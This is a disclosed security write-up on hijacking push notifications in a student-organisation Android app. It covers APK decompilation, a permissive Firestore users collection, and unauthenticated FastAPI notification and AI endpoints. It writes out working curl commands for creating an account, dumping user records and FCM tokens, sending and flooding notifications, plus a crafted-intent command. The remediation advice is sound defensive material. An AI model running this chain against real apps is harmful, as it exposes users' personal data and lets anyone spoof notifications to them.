







# From APK to Admin
Writeup on chaining Firestore misconfiguration and unauthenticated backend APIs into a full push notification hijack via Android APK reverse engineering.

# From APK to Admin: Chaining Firestore Misconfiguration and Unauthenticated Backend APIs into a Full Notification Hijack

**Platform:** Android  
**Severity:** Critical  
**Status:** Disclosed  

---

## Hook

Most Android apps have secrets buried in their code. You just need to know where to look.

This writeup covers how a static analysis of a production Android APK led to discovering a full attack chain. It started from decompiling a binary, reading real user data from a misconfigured cloud database, and proving that any authenticated user could send push notifications to any other user on the platform, including administrators. No special tooling. No zero-days. Just curl, grep, and a Termux terminal.

The most interesting part was not any single vulnerability. It was how three completely independent design decisions, each minor on their own, stacked into a clean end-to-end attack path.

---

## Understanding the Target

The target is a community platform built for a student organization. It is distributed on the Google Play Store as a production application with real users.

**Technology Stack, identified via static analysis:**

| Component | Technology | Where Used in App |
|---|---|---|
| Authentication | Firebase Authentication | Login, signup, session management |
| Database | Cloud Firestore | User profiles, chat messages, admin roles |
| Push Notifications | FCM (Firebase Cloud Messaging) | Chat notifications, admin broadcasts |
| Backend API | FastAPI (Python) hosted on Render.com | Notification delivery, AI features |
| AI Integration | Gemini API (Google) | In-app AI assistant, image analysis |
| Image Storage | Cloudinary | Profile pictures, gallery |
| Mobile Framework | Native Android (Java) | Core application |

**Technology Definitions:**

**Firebase** is Google's mobile backend platform. It bundles authentication, databases, file storage, and cloud messaging into a single SDK. Developers embed a configuration file called `google-services.json` into their app that contains project identifiers and API keys. This file gets compiled into the APK's resource files during the build process.

**Firestore** is Firebase's NoSQL document database. Data lives in collections, which contain documents. Each document holds key-value fields. Access is controlled by Security Rules written server-side in the Firebase console. If those rules are weak or absent, anyone with a valid auth token can read data they should never be able to see. Rules are the only server-side authorization layer. There is no secondary enforcement mechanism.

**FCM (Firebase Cloud Messaging)** is Google's push notification service. Every device that installs an app receives a unique registration token called an FCM token or device token. To deliver a push notification to a specific device, you need that token. It functions as a direct key to the notification channel. If the token leaks, any party that holds it can send notifications to that device without any other credentials.

**JWT (JSON Web Token)** is a signed, base64-encoded token used for authentication. Firebase issues a JWT called an `idToken` after a user logs in. This token is passed in API request headers to prove identity. It contains claims including user ID, email, and expiry time. By default it expires after one hour.

**Smali** is the human-readable assembly language representation of Android's Dalvik bytecode. When you decompile an APK, the original Java source code is not recoverable, but smali files remain for every compiled class. Reading smali shows exactly what the app does at a low level: how it handles incoming data, what API endpoints it calls, what field names it reads from remote sources, and how it constructs network requests.

**FastAPI** is a Python web framework for building REST APIs. One of its default behaviors is automatic OpenAPI documentation. Unless explicitly disabled, visiting `/docs` or `/openapi.json` on a FastAPI server returns a complete list of every endpoint with its expected parameters and response schemas. In production, this hands a full API map to anyone who looks for it.

---

## Recon and Initial Observations

The APK was obtained from the Play Store and decompiled using standard tooling. The decompiled output contains smali files for every class in the application.

The first step was mapping the attack surface by searching for intent handling, extra reading, and hardcoded network calls.

**Checking how the app handles incoming intents:**

```
$ grep -R "getIntent" smali* | head
$ grep -R "getStringExtra" smali*
$ grep -R "SerializableExtra" smali*
```

Output showed that `ChatActivity` reads multiple values from incoming intents:

```
smali/[redacted]/ui/activities/ChatActivity.smali:2672:
invoke-virtual {p1, v1}, Landroid/content/Intent;->getStringExtra(...)
```

**What `ChatActivity.smali` is:** The compiled representation of the chat screen. Every time a user opens a conversation, this activity reads parameters like the chat ID and receiver's user ID from the incoming intent. The security question is whether those values are validated before use.

**Locating hardcoded strings and API keys:**

```
$ grep -i "api_key\|google_api_key" res/values/strings.xml
```

Output:

```xml
<string name="google_api_key">[REDACTED_API_KEY]</string>
<string name="google_crash_reporting_api_key">[REDACTED_API_KEY]</string>
```

**What `strings.xml` is:** A resource file holding string constants compiled into the app. Firebase configuration values including the web API key land here automatically when `google-services.json` is added to an Android project. Anyone who decompiles the APK can extract these values immediately.

**Finding the backend API URL:**

```
$ grep -n "send-chat-notification" \
  smali/[redacted]/ui/activities/ChatActivity.smali
```

Output:

```
1747: const-string v3, "https://redacted.onrender.com/send-chat-notification"
```

The backend server URL was hardcoded directly in the smali. This became the next target.

---

## The Interesting Behavior

With the backend URL in hand, the first step was enumerating what endpoints existed.

**Fetching the OpenAPI specification:**

```
$ curl -s https://redacted.onrender.com/openapi.json | grep operationId
```

Output:

```json
{
  "openapi": "3.1.0",
  "info": {"title": "FastAPI", "version": "0.1.0"},
  "paths": {
    "/": {"get": {"operationId": "serve_home__get"}},
    "/api/ask": {"post": {"operationId": "ask_question_api_ask_post"}},
    "/api/mental-support-chat": {"post": {"operationId": "..."}},
    "/analyze/image": {"post": {"operationId": "..."}},
    "/api/ask-with-image": {"post": {"operationId": "..."}},
    "/send-notification": {"post": {"operationId": "..."}},
    "/send-agro-notification": {"post": {"operationId": "..."}},
    "/send-chat-notification": {"post": {"operationId": "..."}}
  }
}
```

Eight endpoints. No authentication documented in the spec for any of them.

`/send-notification` stood out immediately. In any properly secured system, sending a push notification to a specific device requires server-side verification that the sender is authorized and that the target token belongs to a legitimate user. There was no evidence of that constraint here.

**Testing the notification endpoint with a fake token:**

```
$ curl -i -X POST https://redacted.onrender.com/send-notification \
  -H "Content-Type: application/json" \
  -d '{"token":"fake","title":"test","body":"hello"}'
```

Response:

```
HTTP/2 200
content-type: application/json

{"success":true,"message_id":"projects/[redacted]/messages/3410872361169645255"}
```

The server returned HTTP 200 and a real Firebase message ID against a completely fake token. No authentication header. No API key. No session token. The endpoint passed the request straight through to Firebase Cloud Messaging.

**Testing topic broadcast:**

```
$ curl -i -X POST https://redacted.onrender.com/send-agro-notification \
  -H "Content-Type: application/json" \
  -d '{"token":"fake","title":"test","body":"hello"}'
```

Response:

```
HTTP/2 200

{"success":true,"message_id":"projects/[redacted]/messages/4579120471245032022",
"topic":"agro_members"}
```

This endpoint broadcasts to an FCM topic subscription. Every subscribed device receives the notification simultaneously. Still no authentication.

**Testing AI endpoints:**

```
$ curl -i -X POST https://redacted.onrender.com/api/ask \
  -H "Content-Type: application/json" \
  -d '{"prompt":"hello"}'
```

Response:

```
HTTP/2 200
{"message":"Hello! How can I help you today?"}
```

```
$ curl -i -X POST https://redacted.onrender.com/api/mental-support-chat \
  -H "Content-Type: application/json" \
  -d '{"message":"hello"}'
```

Response:

```
HTTP/2 200
{"reply":"Hello there. It is good to hear from you. How can I support you today?"}
```

Both endpoints responded to unauthenticated requests. The application's Gemini API quota was consumable by any external party with the URL.

**Rate limiting check using parallel requests:**

```
$ for i in {1..50}; do
  curl -s -X POST https://redacted.onrender.com/send-notification \
    -H "Content-Type: application/json" \
    -d '{"token":"fake","title":"spam","body":"msg '$i'"}' &
done
wait
```

Abbreviated output:

```
{"success":true,"message_id":"projects/[redacted]/messages/43835397061758645"}
{"success":true,"message_id":"projects/[redacted]/messages/1487977815015623830"}
{"success":true,"message_id":"projects/[redacted]/messages/4216676242231198792"}
{"success":true,"message_id":"projects/[redacted]/messages/3772889088871393405"}
{"success":true,"message_id":"projects/[redacted]/messages/1973458832008224554"}
...
```

50 requests. 50 unique message IDs. Zero failures. Zero throttling.

---

## Connecting the Chain

The notification endpoint was confirmed unauthenticated with no rate limiting. But actual impact against a real user depended on one thing: obtaining a valid FCM token. A fake token produces a message ID but Firebase silently drops the delivery.

**Tracing FCM token handling in smali:**

```
$ grep -n "fcmToken" \
  smali/[redacted]/ui/activities/ChatActivity.smali
```

Output:

```
1175: const-string v0, "fcmToken"
1179: invoke-virtual {p2, v0}, Lcom/google/firebase/firestore/DocumentSnapshot;
       ->getString(Ljava/lang/String;)Ljava/lang/String;
```

This confirmed the data flow. When a user opens a chat with another user, `ChatActivity` reads the receiver's Firestore document and extracts their `fcmToken` field. That token is then passed to `/send-chat-notification`.

**What `MyFirebaseMessagingService.smali` does:** Handles incoming FCM messages and token refresh events. When a user logs in, this service fetches the current device token and writes it to Firestore under the user's document in the `fcmToken` field. This is standard Firebase implementation, but it means every user's notification token lives in the database as a plain readable field alongside their profile data.

**Checking Firestore access without authentication:**

```
$ curl -s "https://firestore.googleapis.com/v1/projects/[redacted]/databases/
  (default)/documents/users" | jq
```

Output:

```json
{
  "error": {
    "code": 403,
    "message": "Missing or insufficient permissions.",
    "status": "PERMISSION_DENIED"
  }
}
```

Blocked without a token, as expected. The next step was testing what an authenticated user could access.

**Creating a test account via Firebase REST API:**

Firebase Authentication exposes a REST endpoint that accepts the web API key embedded in the APK. Using that key, an account can be created for the target Firebase project without installing the app.

```
$ curl -s -X POST \
  "https://identitytoolkit.googleapis.com/v1/accounts:signUp?key=[REDACTED_API_KEY]" \
  -H "Content-Type: application/json" \
  -d '{
    "email":"[redacted_test_email]",
    "password":"[redacted]",
    "returnSecureToken":true
  }' | jq
```

Response:

```json
{
  "kind": "identitytoolkit#SignupNewUserResponse",
  "idToken": "[REDACTED_JWT]",
  "email": "[redacted_test_email]",
  "refreshToken": "[REDACTED_SESSION_TOKEN]",
  "expiresIn": "3600",
  "localId": "[REDACTED_UID]"
}
```

The `idToken` field is a Firebase JWT immediately usable in Firestore requests.

**Reading the users collection as an authenticated user:**

```
$ TOKEN="[REDACTED_JWT]"
$ curl -s "https://firestore.googleapis.com/v1/projects/[redacted]/databases/
  (default)/documents/users?pageSize=10" \
  -H "Authorization: Bearer $TOKEN" | jq
```

The response document structure, with all values redacted, looked like this for every returned user:

```
Document path:  projects/[redacted]/databases/(default)/documents/users/[REDACTED_UID]

Fields returned:
  name         string    [REDACTED_USER_NAME]
  email        string    [REDACTED_EMAIL]
  role         string    "member" | "admin" | "super_admin"
  fcmToken     string    [REDACTED_FCM_TOKEN]
  profilePic   string    [REDACTED_CDN_URL]
  github       string    [REDACTED_PROFILE_URL]
  linkedin     string    [REDACTED_PROFILE_URL]
```

This structure was returned for every document in the collection. A `nextPageToken` was present in the response, confirming the collection extended beyond the first page. Every user in the database, including accounts with elevated roles, was readable by the test account. The `fcmToken` field was present and populated for each document.

---

## Technical Analysis

**Attack Chain**

**Step 1: API Key Extraction**

The Firebase web API key is embedded in `res/values/strings.xml`. Decompiling the APK exposes it in under a minute. Firebase web API keys are public project identifiers by design, but they enable interaction with Firebase Authentication REST APIs including account creation without any additional verification.

**Step 2: Account Creation via REST**

Using the extracted API key, any external party can create a Firebase account for the target project without going through the application's signup UI or installing the app:

```
POST https://identitytoolkit.googleapis.com/v1/accounts:signUp?key=[REDACTED_API_KEY]
{
  "email": "...",
  "password": "...",
  "returnSecureToken": true
}
```

This returns a valid JWT that authenticates subsequent Firestore and API requests.

**Step 3: Firestore User Collection Enumeration**

Firestore Security Rules on the `users` collection permitted any authenticated user to read any other user's document. The standard ownership check requiring `request.auth.uid == resource.id` was absent. Any account could list and read the entire user collection, including the `fcmToken` field for every user.

**Step 4: Unauthenticated Notification Delivery**

With a real FCM token from Step 3, the `/send-notification` endpoint accepts it with no auth header and delivers the notification via Firebase Cloud Messaging:

```
$ curl -s -X POST https://redacted.onrender.com/send-notification \
  -H "Content-Type: application/json" \
  -d '{
    "token": "[REDACTED_FCM_TOKEN]",
    "title": "PoC",
    "body": "Unauthorized notification"
  }'

{"success":true,"message_id":"projects/[redacted]/messages/[redacted]"}
```

**Role Field and Privilege Escalation Architecture**

The `role` field is a plain string stored directly in each user's Firestore document. Values observed in API responses were `"member"`, `"admin"`, and `"super_admin"`. Administrative access gating in the application is implemented client-side by reading this field after login.

`ManageAdminAdapter.smali` confirms that role changes are performed by calling `.update("role", "member")` directly on a Firestore document reference:

```
smali/[redacted]/ui/adapters/ManageAdminAdapter.smali:
const-string p4, "role"
const-string v0, "member"
invoke-virtual {p1, p4, v0, p3},
  Lcom/google/firebase/firestore/DocumentReference;
  ->update(Ljava/lang/String;Ljava/lang/Object;...)
```

If the Firestore write rules on the `users` collection were as permissive as the confirmed read rules, any authenticated user could call the same `.update()` operation directly via the Firestore REST API and assign an arbitrary role to any account, including `super_admin`. Testing stopped at confirming the read misconfiguration and the architectural pattern. Attempting an unauthorized write against a live production system with real users is outside the scope of responsible research. The architecture and the confirmed read failure together represent a credible escalation path that warrants verification by the application owner in a controlled environment before the backend is brought back online.

**ChatActivity Intent Injection**

`receiverUid` and `chatId` are both written from intent extras at lines 2736 and 2769 without validation:

```
$ grep -n "iput-object.*receiverUid" \
  smali/[redacted]/ui/activities/ChatActivity.smali

2736: iput-object p1, p0, .../ChatActivity;->receiverUid:Ljava/lang/String;
2769: iput-object p1, p0, .../ChatActivity;->receiverUid:Ljava/lang/String;
```

A crafted intent can be delivered with arbitrary values:

```
$ am start \
  -n [redacted]/.ui.activities.ChatActivity \
  --es chatId "../../admins"

Starting: Intent { cmp=[redacted]/.ui.activities.ChatActivity (has extras) }
```

The activity launched without crashing. Firestore document paths are not filesystem paths, so traditional directory traversal does not apply. The actual risk depends on whether the `chats` collection Firestore rules enforce that only participants of a chat can read its messages. If those rules are permissive, an external application with access to the exported component could pass an arbitrary `chatId` and cause `ChatActivity` to load and display messages from a conversation the attacker is not part of. This was not demonstrated end-to-end and is documented as an untested architectural risk. The application owner should verify `chats` collection rules independently.

---

## Exploitation

**Proof 1: Unauthenticated AI Access**

```
$ curl -s -X POST https://redacted.onrender.com/api/ask \
  -H "Content-Type: application/json" \
  -d '{"prompt":"hello"}'

{"message":"Hello! How can I help you today?"}
```

No token. No session. Live AI response. The application's Gemini API quota was freely consumable by any external party with the URL.

**Proof 2: Mass Notification Broadcast with No Authentication and No Rate Limiting**

50 parallel requests with no authentication. All 50 returned unique Firebase message IDs. Zero failures. Zero throttling.

```
{"success":true,"message_id":"projects/[redacted]/messages/[redacted_id_1]"}
{"success":true,"message_id":"projects/[redacted]/messages/[redacted_id_2]"}
{"success":true,"message_id":"projects/[redacted]/messages/[redacted_id_3]"}
...
```

**Proof 3: Full User PII Including FCM Tokens Readable by Any Authenticated User**

A freshly created test account with no prior relationship to the application read the full user collection in a single authenticated GET request. The sanitized document structure above shows exactly which fields were returned for each user. Every field was populated, including `fcmToken`, for all users in the collection, including accounts assigned the `super_admin` role. The field names alone confirm the scope of exposure without reproducing any real user data.

**Proof 4: Backend Suspended During Testing**

When a final targeted notification was attempted using an admin-role FCM token obtained from Firestore:

```
HTTP/2 503
This service has been suspended by its owner.
```

The backend had been suspended by the developer during the assessment. This indicates the developer noticed unusual traffic from earlier probing. The suspension confirms that prior successful requests were real and the notification pipeline was fully operational at the time of testing.

---

## Impact

**Confidentiality breach.** The entire user table was readable by any registered account. Full names, institutional emails, profile images, professional links, role assignments, and FCM device tokens were exposed for all platform users.

**Notification hijack.** Any attacker who registers an account can obtain any user's FCM token from Firestore and deliver arbitrary push notifications to their device using the unauthenticated backend endpoint. No rate limiting means notification flooding is achievable with trivial effort. Notifications sent this way appear indistinguishable from legitimate application notifications on the recipient's device.

**Admin targeting.** Super administrator accounts were not excluded from the readable user collection. Their FCM tokens were present alongside regular users. This enables targeted social engineering against platform administrators via crafted notifications designed to appear legitimate.

**Topic broadcast.** The `/send-agro-notification` endpoint sends to an FCM topic subscription, meaning a single unauthenticated request reaches every subscriber simultaneously.

**API quota abuse.** The AI endpoints expose the application's Gemini API consumption to unlimited external use. Depending on the account tier, this can result in service disruption or direct financial cost to the developer.

**Credible privilege escalation path.** The role architecture, the confirmed read misconfiguration, and the direct `.update()` pattern in `ManageAdminAdapter` together create a believable path to unauthorized role assignment. Not tested end-to-end on the live system, but should be treated as a high-priority unverified finding pending rule verification.

**Attacker profile.** The realistic threat actor for this chain is not a sophisticated external adversary. The entire attack requires a device with curl and the APK, which is publicly available on the Play Store. The most likely profiles are a student or peer with basic technical knowledge who decompiles the APK out of curiosity, a disgruntled former member who already knows the tech stack, or an opportunistic researcher running automated recon against Firebase projects. No app installation, no physical access, and no social engineering is required beyond creating a free account. The barrier to entry is low enough that any motivated person within the user community should be assumed capable of executing it.

---

## Why It Happened (Root Cause)

Three independent design decisions combined to create this chain. None is catastrophic on its own. Together they form a clean attack path from account creation to targeted notification delivery against any user in the system.

**First,** the Firestore Security Rules on the `users` collection did not enforce document ownership. The standard rule requires `request.auth.uid == resource.id`, ensuring a user can only read their own document. Without this, any authenticated account could read the entire collection including the `fcmToken` field.

**Second,** the FastAPI backend had no token verification middleware on any endpoint. Every route was effectively public. FastAPI provides a clean dependency injection pattern for adding auth, but none was applied. These endpoints were likely built and tested locally without authentication and shipped in that state.

**Third,** the FCM token was stored as a plain field in the same Firestore document as the user's profile data. This made it convenient for the chat notification flow, since `ChatActivity` needed both the receiver's display name and their token from the same document. When read rules were overly permissive, the token leaked alongside all other profile fields in every response.

---

## Recommendations

| Finding | Recommendation |
|---|---|
| Firestore user collection over-read | Restrict reads to document owner only |
| FCM token exposed in user document | Move to a separate restricted collection or deliver server-side only |
| No backend authentication | Add Firebase token verification to all endpoints |
| No rate limiting | Enforce per-IP request limits on notification endpoints |
| API key in APK | Rotate key and publish updated release |
| Role escalation (unverified) | Audit write rules on `users` collection before bringing backend online |
| Intent injection in ChatActivity | Validate all intent extras against expected formats before use |

**Firestore read rule fix:**

```javascript
rules_version = '2';
service cloud.firestore {
  match /databases/{database}/documents {
    match /users/{userId} {
      allow read, write: if request.auth != null
                         && request.auth.uid == userId;
    }
  }
}
```

**FastAPI token verification middleware:**

```python
from firebase_admin import auth
from fastapi import Header, HTTPException, Depends

async def verify_token(authorization: str = Header(None)):
    if not authorization or not authorization.startswith("Bearer "):
        raise HTTPException(status_code=401, detail="Unauthorized")
    try:
        token = authorization.split("Bearer ")[1]
        decoded = auth.verify_id_token(token)
        return decoded
    except Exception:
        raise HTTPException(status_code=401, detail="Unauthorized")

# Apply to every endpoint
@app.post("/send-notification")
async def send_notification(data: dict, user=Depends(verify_token)):
    ...
```

**FCM token storage recommendation:** Remove `fcmToken` from the `users` document entirely. Store it in a separate `fcm_tokens/{userId}` collection with rules that permit write only by the owning user and read by no one except Firebase Admin SDK running server-side.

---

## Lessons Learned

The three root causes above are specific to this application. The patterns behind them are not.

**FCM tokens are credentials, and most developers do not treat them that way.** The Firebase documentation shows storing tokens in Firestore as the standard approach because it is convenient. It works until the read rules are wrong, at which point every token in the database is exposed. Credential-class data should never share a document with display data.

**Auto-generated API documentation is reconnaissance.** FastAPI, Flask-RESTx, Swagger, and similar frameworks ship with documentation enabled by default. A developer who builds an internal API and ships it without disabling docs has published their entire endpoint map. Any backend reached from a mobile app should have docs disabled in production.

**Client-side role enforcement has no value without matching server-side rules.** If the application checks `role == "admin"` in the UI but Firestore allows any authenticated user to write any field on any document, the check does nothing. Authorization logic belongs on the server, and in Firebase's model that means the Security Rules. They are not optional hardening, they are the enforcement layer.

**Stacked misconfigurations multiply risk nonlinearly.** Any one of the three issues here would have been a medium severity finding in isolation. The Firestore misconfiguration alone leaks PII but requires a registered account. The unauthenticated notification endpoint alone is a nuisance without real tokens. The FCM token storage alone is a bad practice. Together they form a critical chain reachable by anyone with curl and the APK. Reviewing configuration settings in isolation misses this class of risk.

---

## Final Thoughts

This was a case where three individually minor misconfigurations stacked into a critical chain. The developer built a real, working product with useful features and shipped it. The security gaps were not exotic. They were the kind of defaults that appear when moving fast without a dedicated security review pass.

The backend was suspended during this assessment and Firestore rules were tightened before disclosure was complete. The remaining surface is the API key embedded in the APK, which requires a new release to rotate, the unvalidated intent handling in `ChatActivity`, and the unverified role escalation path which should be audited before the backend is restored.

Responsible disclosure was submitted to the developer via email. Test accounts created during assessment were deleted. No real user data was retained or misused.

---

# Attack Chain Visualization

## High-Level Exploitation Flow



---

# APK Reverse Engineering Flow



---

# Backend Attack Surface Mapping



---

# Firestore Trust Boundary Failure



---

# Notification Hijack Flow



---

# Root Cause Relationship Map



---

# Full End-to-End Kill Chain




```

*sudo.appsec*  
